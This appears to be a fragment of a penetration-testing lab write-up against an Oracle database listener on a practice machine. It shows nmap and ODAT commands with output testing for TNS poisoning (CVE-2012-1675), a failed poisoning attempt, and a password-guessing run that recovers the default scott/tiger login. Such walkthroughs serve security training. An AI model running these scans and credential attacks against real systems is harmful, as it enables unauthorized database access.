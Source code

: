 ```console
└─╼$ sudo nmap -Pn -sT --script=+oracle-tns-poison -p 1521 $IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-20 02:46 HKT
...
PORT     STATE SERVICE
1521/tcp open  oracle
|_oracle-tns-poison: Host is vulnerable!
```

```console
./odat-libc2.17-x86_64 tnspoison -s 10.129.95.188 -d XE --test-module

└─╼$ ./odat-libc2.17-x86_64 tnspoison -s 10.129.95.188 -d XE --test-module
[1] (10.129.95.188:1521): Is it vulnerable to TNS poisoning (CVE-2012-1675)?
[+] The target is vulnerable to a remote TNS poisoning
```

Exploit failed:

```console
└─╼$ ./odat-libc2.17-x86_64 tnspoison -s 192.168.56.101 -d XE --poison
[1] (192.168.56.101:1521): Local proxy on port 1522 and TNS poisoning attack to 192.168.56.101:1521 are starting. Waiting for connections...
03:22:36 CRITICAL -: Connection Timeout: The server has not responded to the CONNECT_DATA packet send
```

Then, try to use odat to crack the username and password using [passwordguesser](https://github.com/quentinhardy/odat/wiki/passwordguesser).

```console
└─╼$ ./odat-libc2.17-x86_64 passwordguesser -s 10.129.95.188 -d XE

[1] (10.129.95.188:1521): Searching valid accounts on the 10.129.95.188 server, port 1521
The login cis has already been tested at least once. What do you want to do:                             | ETA:  00:25:30
[!] Notice: 'ctxsys' account is locked, so skipping this username for password                           | ETA:  00:37:40
[!] Notice: 'dbsnmp' account is locked, so skipping this username for password                           | ETA:  00:35:37
[!] Notice: 'dip' account is locked, so skipping this username for password                              | ETA:  00:32:46
[!] Notice: 'hr' account is locked, so skipping this username for password                               | ETA:  00:24:43
[!] Notice: 'mdsys' account is locked, so skipping this username for password                            | ETA:  00:18:10
[!] Notice: 'oracle_ocm' account is locked, so skipping this username for password                       | ETA:  00:13:50
[!] Notice: 'outln' account is locked, so skipping this username for password                            | ETA:  00:12:20
[+] Valid credentials found: scott/tiger. Continue...                                                    | ETA:  00:06:40
[!] Notice: 'xdb' account is locked, so skipping this username for password                              | ETA:  00:01:18
100% |###################################################################################################| Time: 00:32:44
[+] Accounts found on 10.129.95.188:1521/sid:XE:
scott/tiger
```
